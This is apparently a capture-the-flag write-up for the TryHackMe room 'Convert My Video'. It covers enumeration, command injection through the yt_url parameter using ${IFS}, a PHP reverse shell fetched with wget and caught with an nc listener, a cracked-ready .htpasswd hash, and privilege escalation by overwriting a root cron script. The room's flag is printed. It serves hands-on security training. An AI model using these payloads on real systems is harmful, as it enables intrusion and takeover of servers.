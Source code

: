 ```yaml
---
title: TryHackMe - Convert My Video
date: 2022-11-28 16:35:00 +0530
categories: [TryHackMe]
tags: [tryhackme, Medium]
---
```


-------

Room : https://tryhackme.com/room/convertmyvideo

Difficulty : Medium

As always, starting off the test with adding the machine IP to /etc/hosts as **convert.thm**.


> You can convert your videos - Why don't you check it out!

## Enumeration

Start the testing with adding the machine IP to `/etc/hosts`.

### Nmap
```
$ sudo nmap -Pn convert.thm                      
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-26 05:02 EST
Nmap scan report for convert.thm (10.10.96.2)
Host is up (0.17s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

$ sudo nmap -sC -sV -Pn -p22,80 convert.thm
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-26 05:03 EST
Nmap scan report for convert.thm (10.10.96.2)
Host is up (0.16s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 651bfc741039dfddd02df0531ceb6dec (RSA)
|   256 c42804a5c3b96a955a4d7a6e46e214db (ECDSA)
|_  256 ba07bbcd424af293d105d0b34cb1d9b1 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Gobuster

Directory busting with **gobuster** using wordlists from `Seclists`.

```console
$ gobuster dir -u http://convert.thm -w ~/Github/SecLists/Discovery/Web-Content/apache.txt
# SNIPPED
/.htaccess            (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/server-status        (Status: 403) [Size: 276]
/tmp                  (Status: 301) [Size: 308] [--> http://convert.thm/tmp/]
# from another wordlist
/admin
```

![convert pic](/assets/img/thm_convert/1.png)

+ Web application which takes youtube video url as input (Video ID) and converts the video to audio and places it in /tmp.

### Burpsuite

Lets capture the request with **Burpsuite** and modify the _yt_url_ parameter with a delimiter `;`

![convert pic](/assets/img/thm_convert/2.png)

From the response, there are few points to note.
+ _yt_url_ value is being used to construct command something like `youtube-dl [yt_url] -f ..`
+ since we used `;` as input, `youtube-dl` and `-f` got separated and `sh` was executing `-f`. This is why we got part of the response as `sh 1: -f: not found.`

Let's try to inject some shell commands now.

![convert pic](/assets/img/thm_convert/3.png)

> yt_url=;whoami;   and the response is www-data
{: .prompt-info }

This is fine. but later i came across the problem where, commands with **space** wont get executed. they got cut off. Let's use **${IFS}** as substitution for *space*. 

> yt_url=;ls${IFS}-al;
> /var/www/

## Initial Shell

![convert pic](/assets/img/thm_convert/4.png)

So, we are currently having a execution at `/var/www/html` as **www-data**. Let us try to get a reverse shell by using php-reverse shell. we will be serving the reverse-shell to *convert.thm* using `python -m http.server` on our machine.

we can download the reverse shell on *convert.thm* using **wget**.

![convert pic](/assets/img/thm_convert/5.png)

Spawn a nc listener. 
`nc -lnvp 1234`

Now, browse to `http://convert.thm/php-reverse-shell.php` to execute this reverse shell php script.

![convert pic](/assets/img/thm_convert/6.png)

we can upgrade our shell to interactive using python script `python -c 'import pty;pty.spawn("/bin/bash")'`

Lets check the folders.

```console
$ cd /var/ww/html
$ dir
-f  admin  images  index.php  js  php-reverse-shell.php  style.css  tmp
$ ls
```

Let's check some file contents.

```php
<?php
# <---snipped--->
{    
   $yt_url = explode(" ", $_POST["yt_url"])[0];
   $id = uniqid();
   $filename = $id.".%(ext)s";
   $template = '/var/www/html/tmp/downloads/'. $filename;
   $string = ('youtube-dl --extract-audio --audio-format mp3 ' . $yt_url . ' -f 18 -o ' . escapeshellarg($template));
# <---snipped--->
?>
```
{: file='/var/www/html/index.php'}

```php
<?php
  if (isset($_REQUEST['c'])) {
      system($_REQUEST['c']);
      echo "Done :)";
  }
?>

<a href="/admin/?c=rm -rf /var/www/html/tmp/downloads">
   <button>Clean Downloads</button>
```
{: file='/var/www/html/admin/index.php'}

```console
$ cat /var/www/html/admin/.htpasswd
itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/
```

## Privilege Escalation

Lets run **linpeas.sh**. It states that `/var/www/html/tmp/clean.sh` has been run recently and repeatedly and i have perms to edit it.

```console
$ cat clean.sh
rm -rf downloads
```

Now we can modify the shell script to run our code. Lets try to read the root flag.

```console
$ echo 'cat /root/root.txt > flag.txt' > clean.sh
# After sometime
$ dir
clean.sh flag.txt
$ cat flag.txt
flag{d9b368018e912b541a4eb68399c5e94a}
```

There are many rabbit holes i fell into, where i wasted time.